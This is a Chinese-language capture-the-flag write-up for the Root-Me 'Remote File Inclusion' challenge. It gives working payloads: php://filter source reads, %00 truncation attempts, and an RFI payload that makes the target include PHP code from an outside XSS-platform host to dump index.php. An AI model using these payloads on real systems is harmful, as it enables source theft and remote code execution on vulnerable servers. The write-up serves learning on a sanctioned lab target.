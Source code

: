 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[Remote File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)] [[解题报告](http://exp-blog.com/2019/03/09/pid-3517/)]

------


## 题目分析

PHP 的 RFI （远程文件包含）漏洞利用，与 LFI （本地文件包含）很类似。

题目要求我们获取 PHP 页面源码，开启挑战后，只有 [Français](http://challenge01.root-me.org/web-serveur/ch13/?lang=fr) （`?lang=fr`） 和  [English](http://challenge01.root-me.org/web-serveur/ch13/?lang=en) （`?lang=en`） 两个选项。

顺手测试了一下，当前页面的名称为 `index.php` ：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/01.png)

换言之我们有 3 个页面：`?lang=fr`、`?lang=en`、 `index.php` 。

------------

## LFI 试错

虽然题目提示要使用 RFI 完成挑战，但是还是先测试下 LFI 的效果。

可以利用 `php://filter` 特性读取页面源码，构造这样的 payload ：

`?lang=php://filter/convert.base64-encode/resource=fr`

于是得到 Base64 编码的页面源码：

```base64
PD9waHAKCiRsYW5nID0gYXJyYXkgKAogICAgICAgICAgICAnbGFuZycgPT4gJ0xhbmd1ZScsCiAgICAgICAgICAgICd3ZWxjb21lJyA9PiAnQmllbnZlbnVlIHN1ciBub3RyZSBub3V2ZWF1IHNpdGUgd2ViICEnLAogICAgICAgICk7Cgo/Pgo=
```

对其解码虽然得到源码，但是没有有效的信息：

```php
<?php

$lang = array (
            'lang' => 'Langue',
            'welcome' => 'Bienvenue sur notre nouveau site web !',
        );

?>
```

类似地，`?lang=en` 的页面源码也是没提供有效的信息。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/02.png)


换言之，有效信息应该保存在  `index.php` 。于是构造类似的 payload 去读取页面源码：

`?lang=php://filter/convert.base64-encode/resource=index.php`

但是页面报错：

```
Warning: include(php://filter/convert.base64-encode/resource=index.php_lang.php): failed to open stream
```

从报错分析可以知道，代码会把 `?lang=输入` 构造成 `include('输入_lang.php')`

亦即前面之所以可以读取到 `?lang=fr` 和 `?lang=en` 的内容，是因为他们真正的文件名是 `fr_lang.php` 和 `en_lang.php` 。

但是因为不存在 `index_lang.php` 和 `index.php_lang.php` 页面，所以 `include()`  Local File 时就会报错。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/03.png)


其实在 LFI 的领域，这种情况（include 的文件被强制加了后缀）是有办法处理的。

因为 PHP 是用 C 语言编写的，而在 C 语言中，标记一个字符串的终止符是 `\0` ，其 URL 编码是 `%00` 。

因此可以尝试在 payload 末尾添加 `%00` 以截断被强制添加的 `_lang.php` 后缀：

`?lang=php://filter/convert.base64-encode/resource=index.php%00`

但是这次报错为 `Warning: include()` ，即 `include` 的参数被置空，说明 `%00` 被过滤了。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/04.png)

------------

## RFI 漏洞

由于 LFI 的最后希望被封堵，我们把策略转移到 RFI 。

其实 RFI 更简单，从前面分析已经知道，代码会把 `?lang=输入` 构造成 `include('输入_lang.php')`。

RFI 只需要再 `输入` 点直接设置 URL 地址即可，如 payload 为：`?lang=https://www.baidu.com` 。

但是页面返回报错 ` Warning: include(https://www.baidu.com_lang.php): failed to open stream` 。

这是因为 `_lang.php` 后缀作祟。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/05.png)

在 RFI 中要截断后缀，只需要在末尾添加 `?` 即可，这样后缀就会变成 URL 的参数，亦即构造 payload 为：

`?lang=https://www.baidu.com?` 

于是我们成功把百度嵌入到了页面中：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/06.png)

------------

## RFL 注入

既然可以成功嵌入百度，那么也可以嵌入 payload 页面。

所以接下来要做的，就是在一个公网可访问的 WEB 服务器上构造一个页面，把该页面的内容作为 payload ，读取发起 `include` 行为的页面源码。

为了节省搭建 WEB 服务器的资金，从这里开始我们利用 XSS 平台，推荐 [http://xss.tf](http://xss.tf) 。

在 XSS 平台上新建一个项目，并配置自定义代码 `<?php echo file_get_contents('index.php') ?>` 。

配置完成后，我们得到访问这个项目的页面地址为 `http://xss.tf/M5Q` 

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/07.png)

将 XSS 项目的 URL 注入挑战页面，即构造 payload ： `?lang=http://xss.tf/M5Q?`

成功读取到 `index.php` 的源码，打开浏览器的开发者工具，在注释中找到 flag ，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/08.png)

------------

## 其他 payload

在 XSS 平台上构造 payload 的过程中，我发现这题挑战其实不止一个解法:

在 `inlcule()` 参数的引号被闭合后，可以注入 HTML 和 JS 代码，然后在 JS 代码中调用 PHP 代码。

例如构造这样的 payload 一样可以成功读取到页面源码：

`'<img src=0 onerror="<?php echo file_get_contents('index.php') ?>" />'`

 看上去好像多此一举，不过在某些情况可能会很有用。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B29%5D%20%5B30P%5D%20Remote%20File%20Inclusion/imgs/09.png)


------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
